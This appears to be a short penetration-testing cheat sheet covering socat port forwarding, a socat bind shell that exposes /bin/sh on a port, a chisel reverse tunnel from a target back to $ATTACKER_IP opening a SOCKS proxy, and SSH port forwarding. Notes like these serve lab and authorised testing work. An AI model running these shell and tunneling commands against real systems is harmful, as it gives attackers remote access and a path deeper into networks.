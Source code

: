 # socat
## port forwarding with socat
Forward port 80 to 445
```bash
socat TCP-LISTEN:80,fork TCP:127.0.0.1:445
```

## execute program
### bind shell
```bash
socat TCP4-LISTEN:8081,fork exec:/bin/sh
```

## listen fork print to stdout
```bash
socat TCP-LISTEN:1234,fork stdout
```

# tunneling through chisel
Tunnel through 443 and open a socks proxy on attacker localhost.
## Attacker
```bash
./chisel server --port 443 --reverse
```
## Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

# ssh port forwarding
send ssh control sequence on new line `~C`.
client machine's port (ex: 8081) comes first.
```
-L 8081:127.0.0.1:8080
```
or include port forward when running from command line
```bash
ssh -L 8081:127.0.0.1:8080 user@$IP
```

## dynamic ( socks )
-D 1080
